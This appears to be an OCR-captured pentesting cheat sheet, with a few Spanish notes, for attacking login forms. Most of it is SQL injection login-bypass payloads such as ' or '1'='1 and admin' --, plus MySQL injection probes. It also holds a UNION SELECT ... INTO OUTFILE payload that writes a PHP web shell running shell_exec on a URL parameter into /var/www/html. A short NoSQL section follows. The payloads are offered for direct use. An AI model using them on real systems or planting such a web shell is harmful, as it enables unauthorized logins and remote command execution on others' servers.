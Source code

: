 despues nos logueamos
rop' or 2=2 #:password


# Login Bypass:
---
replace ' with " if fail
```
' or '1'='1  
' or 1=1;--  
' or 1=1;#  
') or ('x'='x  
' or <column> like '%';--  
' or 1=1 LIMIT 1;--  

USERNAME:   ' or 1/*  
PASSWORD:   */ =1 --  

USERNAME: admin' or 'a'='a  
PASSWORD '#  

USERNAME: admin' --  
PASSWORD:
```


# inject webshell
---
```
Mysql
'*'   
'&'  
'^'  
'-'  
' or true;--   
' or 1;--  

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'
```


# NoSql
---

## like sql
```
select * from usernames where user='$user';

$user->findone(array(
"username"=> "$user"
));
```
